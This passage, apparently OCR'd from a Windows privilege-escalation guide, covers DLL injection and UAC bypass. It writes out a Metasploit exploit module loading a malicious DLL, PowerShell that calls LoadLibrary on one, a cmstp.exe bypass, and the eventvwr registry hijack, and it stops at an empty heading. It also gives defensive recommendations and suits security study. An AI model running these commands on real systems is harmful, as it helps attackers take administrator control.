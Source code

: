    Command Examples:

        Using Metasploit to Inject DLL:

        bash

use exploit/windows/local/ms16_016_webdav
set SESSION 1
set DLL /path/to/malicious.dll
run

PowerShell DLL Injection:

powershell

        Add-Type -TypeDefinition @"
        using System;
        using System.Runtime.InteropServices;

        public class Win32 {
            [DllImport("kernel32.dll")]
            public static extern IntPtr LoadLibrary(string dllName);
        }
        "@

        [Win32]::LoadLibrary("C:\\path\\to\\malicious.dll")

    Recommendations:
        Use Windows Defender Exploit Guard to monitor and block suspicious DLL loading.
        Implement application whitelisting using tools like AppLocker.
        Regularly review and secure DLL search paths.

D. UAC Bypass

Description: User Account Control (UAC) is a security feature in Windows that limits application software to standard user privileges until an administrator authorizes an increase. Attackers often try to bypass UAC to execute code with higher privileges without triggering a UAC prompt.

    Common Tools and Techniques:
        DLL Side-Loading: Abusing trusted Windows binaries to load malicious DLLs with higher privileges.
        CMSTPLUA: Abusing cmstp.exe to bypass UAC.
        Event Viewer: Using eventvwr.exe to execute arbitrary scripts bypassing UAC.
        Using PowerShell: Various UAC bypass techniques using PowerShell scripts.

    Command Examples:

        Using CMSTPLUA to Bypass UAC:

        bash

cmstp.exe /s /ns C:\path\to\malicious.inf

Event Viewer UAC Bypass:

bash

reg add HKCU\Software\Classes\mscfile\shell\open\command /d "cmd.exe" /f
eventvwr.exe

PowerShell UAC Bypass:
